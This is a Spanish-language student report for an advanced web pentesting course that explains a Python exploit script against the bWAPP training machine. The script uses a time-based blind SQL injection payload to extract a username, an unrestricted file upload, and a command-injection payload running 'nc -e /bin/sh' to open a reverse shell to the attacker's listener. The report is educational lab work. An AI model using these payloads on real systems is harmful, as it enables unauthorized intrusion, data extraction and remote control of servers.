



**Evaluación Final**

SQL Injection Blind, Unrestricted File Upload,

OS Command Injection

**Nombre Alumna:** Fernanda Vergara Chávez

**Nombre Profesor:** Ángel Gangas - Asistente de clases: Violeta Gangas

**Diplomado:** Red Team Avanzado

**Curso:** PENTESTING WEB AVANZADO v.4.

**Fecha de entrega:** 25/10/2024

* * *

# Introducción

La actividad final del curso consiste en desarrollar un script en Python 3 que automatice varias etapas de explotación en una máquina vulnerable. Este script debe aceptar una dirección IP como argumento, realizar la autenticación en la máquina Bee y explotar una vulnerabilidad de inyección SQL basada en tiempo para extraer un nombre de usuario de la base de datos. Además, debe aprovechar una vulnerabilidad de carga de archivos sin restricción para subir un archivo .txt con el nombre y apellido del estudiante. Por último, se debe explotar una vulnerabilidad de OS Command Injection para obtener una shell reversa en el puerto 8443.

# Desarrollo

## I. Ambiente, archivos y configuraciones:

1. Se ha usado la máquina bee para atacar y la máquina Kali como atacante:

2. Comando para escuchar el puerto 8443 que llevará a cabo la shell reversa:
   
    nc -lvnp 8443

## II.  Código python para los ataques:

(Para ver el script completo, por favor revisar anexo: FernandaVergara.py)

## III. Código de fuente explicado

1. ### Importaciones y Configuración Inicial:

1.1. Importación de módulos: Se importan bibliotecas necesarias para hacer solicitudes HTTP (requests), manejar cadenas (string), medir tiempos (time), codificar URLs (urllib), procesar argumentos de línea de comandos (argparse), y operaciones del sistema (os).

    import requests
    import string
    import time
    import urllib
    import argparse
    import os

1.2. Credenciales de usuario: Se definen las credenciales que se utilizarán para iniciar sesión en bWAPP.

    username = "bee"
    password = "bug"

2. ### Configuración de Sesiones y Encabezados:

2.1. Encabezados y sesión: Se establece un encabezado para simular un navegador y se inicia una sesión de requests para mantener el estado entre las solicitudes.

    headers = {
            "User-Agent": "Mozilla/5.0"
    }
    session = requests.Session()

3. ### Función de Inicio de Sesión:

3.1. Inicio de sesión: Se define la URL y los datos de inicio de sesión que se enviarán.

    def login(base\_url):
            login\_url = f"{base\_url}/bWAPP/login.php"
            login\_data = {
                "login": username,
                "password": password,
                "form": "submit"
            }

3.2. Envío de solicitud: Se realiza una solicitud POST para enviar las credenciales al servidor y autenticar al usuario.

    response = session.post(login\_url, data=login\_data, headers=headers)

3.3. Verificación de inicio de sesión: Se verifica si el inicio de sesión fue exitoso, buscando una palabra clave en la respuesta.

    if "Welcome" in response.text:
            print("\[+\] Login successful!")
    else:
            print("\[-\] Login failed.")
            exit()

4. ### Extracción del Nombre de Usuario (SQL Injection):

4.1. Configuración de la función: Se inicializa una cadena vacía para almacenar el nombre de usuario extraído y se imprime un mensaje.

    def blind\_sqli\_extract\_username(base\_url):
            extracted\_username = ""
            print("\[\*\] Starting blind SQL injection to extract username...")

4.2. Bucle para caracteres: Se itera hasta un máximo de 32 caracteres (longitud asumida del nombre de usuario).

    for i in range(1, 33):

4.3. Bucle para caracteres posibles: Se prueba cada carácter alfabético y numérico.

    for char in string.ascii\_uppercase + string.ascii\_lowercase + string.digits + string.punctuation:

4.4. Construcción de carga útil: Se genera una carga útil SQL que comprueba si un carácter específico coincide con el correspondiente en el nombre de usuario. Si coincide, se induce una espera de 1 segundo.

    payload = urllib.parse.quote\_plus(
            f"' AND (SELECT IF(SUBSTRING(login, {i}, 1) = '{char}', SLEEP(1), 0) FROM users LIMIT 1)#"
    )

4.5. Envío de la carga útil: Se envía la carga útil al servidor y se mide el tiempo que tarda en responder.

    start\_time = time.time()
    sqli\_url = f"{base\_url}/bWAPP/sqli\_1.php?title={payload}&action=search"
    response = session.get(sqli\_url, headers=headers)
    end\_time = time.time()

4.6. Verificación del resultado: Si la respuesta tarda 1 segundo o más, se añade el carácter a la cadena de nombre de usuario extraído.

    if end\_time - start\_time >= 1:
            extracted\_username += char
            print(f"\[+\] Extracted so far: {extracted\_username}")

5. ### Escritura del Nombre de Usuario Extraído en un Archivo:

Función para guardar: Se define una función que escribe el contenido extraído en un archivo.

    def write\_to\_file(filename, content):
            with open(filename, 'w') as f:
                f.write(content)
            print(f"\[+\] Wrote extracted username to {filename}")

6. ### Subida de Archivos:

6.1. Configuración de subida: Se configura la URL de subida y se preparan los datos y el archivo para la solicitud.

    def upload\_file(base\_url, filename, content\_type="text/plain"):
            upload\_url = f"{base\_url}/bWAPP/unrestricted\_file\_upload.php"
            files = {"file": (filename, open(filename, "rb"), content\_type)}
            data = {"MAX\_FILE\_SIZE": "10", "form": "Upload"}

6.2. Envío de archivo: Se realiza una solicitud POST para subir el archivo al servidor.

    response = session.post(upload\_url, files=files, data=data, headers=headers)

7. ### Función para Inyectar y Activar el Reverse Shell:

7.1. inject\_reverse\_shell\_command(): Esta función se encarga de construir y enviar un comando que activa un reverse shell en la máquina víctima.

**\-shell\_url:** Define la URL del endpoint de bWAPP donde se enviará el comando.
**\-payload:** Se crea un payload que utiliza nc (Netcat) para abrir una shell en la máquina local y conectarse de vuelta a la IP y puerto especificados. Este comando permite al atacante recibir una shell de la máquina comprometida.

    def inject\_reverse\_shell\_command(base\_url, local\_ip, local\_port):
            shell\_url = f"{base\_url}/bWAPP/commandi.php"
            payload = f'www.nsa.gov& nc -e /bin/sh {local\_ip} {local\_port}'

7.2. Guardado de la Webshell: Se imprime un mensaje indicando que se está intentando activar el reverse shell. Se envía una solicitud POST al shell\_url, pasando el payload como datos. Esto ejecuta el comando en la máquina vulnerable.

        print("\[\*\] Triggering reverse shell... Check terminal...")
        response = session.post(shell\_url, data={"target": payload, "form": "submit"}, headers=headers)

7.3. Se verifica si la solicitud fue exitosa (código de estado 200):

Si la ejecución fue exitosa, se notifica al usuario. Si no, se imprime un mensaje de error indicando que la activación falló.

    if response.status\_code == 200:
        print("\[+\] Reverse shell command sent and ended successfully!")
    else:
        print("\[-\] Failed to trigger reverse shell.")

8. ### Función Principal:

8.1. Configuración de argumentos: main(): Define la función principal del script. Se configura un ArgumentParser para permitir la entrada de argumentos desde la línea de comandos.

**\-target\_ip:** Argumento posicional para la dirección IP del servidor bWAPP, con un valor por defecto.
**\-local\_ip:** Argumento opcional para la IP local del atacante.
**\-local\_port:** Argumento opcional para el puerto local donde se escuchará la conexión del reverse shell.

    def main():
            parser = argparse.ArgumentParser(description="bWAPP SQL Injection Exploit with Reverse Shell")
            parser.add\_argument("target\_ip", nargs="?", default="192.168.106.129", help="Target IP address of the bWAPP server")
            parser.add\_argument("--local\_ip", default="192.168.106.128", help="Your local IP address")
            parser.add\_argument("--local\_port", default="8443", help="Your local port (default: 8443)")

8.2. Los argumentos se analizan y se almacena la URL base del servidor bWAPP.

Se define un nombre de archivo (txt\_file) donde se guardará el nombre de usuario extraído.

    args = parser.parse\_args()
    base\_url = f"http://{args.target\_ip}"
    txt\_file = "FernandaVergara.txt"

8.3. Se ejecutan varias funciones en secuencia:

**\-login(base\_url):** Inicia sesión en bWAPP utilizando las credenciales definidas.
**\-blind\_sqli\_extract\_username(base\_url):** Extrae el nombre de usuario mediante inyección SQL.
**\-write\_to\_file(txt\_file, extracted\_username):** Escribe el nombre de usuario extraído en un archivo.
**\-upload\_file(base\_url, txt\_file):** Carga el archivo en el servidor bWAPP.
**\-inject\_reverse\_shell\_command(base\_url, args.local\_ip, args.local\_port):** Activa el reverse shell usando el payload definido.

        login(base\_url)
        extracted\_username = blind\_sqli\_extract\_username(base\_url)
        write\_to\_file(txt\_file, extracted\_username)
        upload\_file(base\_url, txt\_file)
        inject\_reverse\_shell\_command(base\_url, args.local\_ip, args.local\_port)

9. ### Ejecución del Script:

Este bloque ejecuta la función principal si el script se ejecuta directamente.

    if \_\_name\_\_ == "\_\_main\_\_":
            main()

Resultados y Conclusiones

El script de explotación ha demostrado la efectividad de las siguientes vulnerabilidades en bWAPP:

1. ### SQL Injection Blind:

Se logró la extracción exitosa del nombre de usuario mediante la recolección de caracteres, confirmando la efectividad de la inyección SQL ciega. Output clave:

\[\*\] Starting blind SQL injection to extract username...
\[+\] Extracted so far: A
\[+\] Extracted so far: A.
\[+\] Extracted so far: A.I
\[+\] Extracted so far: A.I.
\[+\] Extracted so far: A.I.M
\[+\] Extracted so far: A.I.M.
\[!\] Extraction stopped - no more characters found.
\[+\] Username extracted: A.I.M.

2. ### Unrestricted File Upload:

Se subió correctamente un archivo de texto (FernandaVergara.txt), evidenciando la falta de restricciones en la carga de archivos. Output clave:

\[\*\] Response from upload attempt: <!DOCTYPE html>...

The image has been uploaded <a href="images/FernandaVergara.txt" target="\_blank">here</a>.

3. ### OS Command Injection:

Se envió un comando para ejecutar una shell reversa que se completó con éxito, lo que permite la ejecución de comandos arbitrarios en el servidor. Output clave:

\[\*\] Triggering reverse shell... Check terminal...
\[+\] Reverse shell command sent and ended successfully!

Referencias y Anexos

* Código de python usado en clases, modificado para propósitos de la actividad y refinado con IA.
* Guia de desarrollo en clases
* Codigo de fuente completo en anexo FernandaVergara.py
* FernandaVergara.txt: Archivo que genera el código para demostrar la vulnerabilidad de Unrestricted File Upload.
* Para ver la totalidad del output del script de Python, por favor revisar anexo: Fernanda\_Vergara-Evaluación\_Final\_AnexoOutput.pdf
